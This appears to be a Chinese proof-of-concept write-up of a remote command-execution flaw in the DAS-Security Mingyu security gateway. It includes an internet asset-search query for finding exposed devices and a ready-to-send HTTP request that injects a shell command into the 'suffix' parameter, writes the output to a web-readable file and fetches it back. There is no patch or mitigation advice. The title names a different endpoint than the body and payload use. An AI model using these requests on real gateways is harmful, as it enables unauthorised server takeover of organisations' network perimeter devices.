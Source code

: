 # 安恒明御安全网关aaa_portal_auth_config_reset存在远程命令执行漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关aaa_portal_auth_wchat_submit存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ 特征

![1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3.png](./img/HWXRZk-Pt7bBvocS/1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3-137994.png)

# 四、漏洞复现
```plain
GET /webui/?g=aaa_portal_auth_wchat_submit&suffix=;echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/stc.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd.png](./img/HWXRZk-Pt7bBvocS/1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd-686075.png)

获取命令执行结果

```plain
GET /sslvpn/stc.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405938768-9fa01d85-610c-4b95-a221-8a3363171080.png](./img/HWXRZk-Pt7bBvocS/1703405938768-9fa01d85-610c-4b95-a221-8a3363171080-026969.png)



> 更新: 2024-07-17 17:22:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ggogol4vip7aq8zc>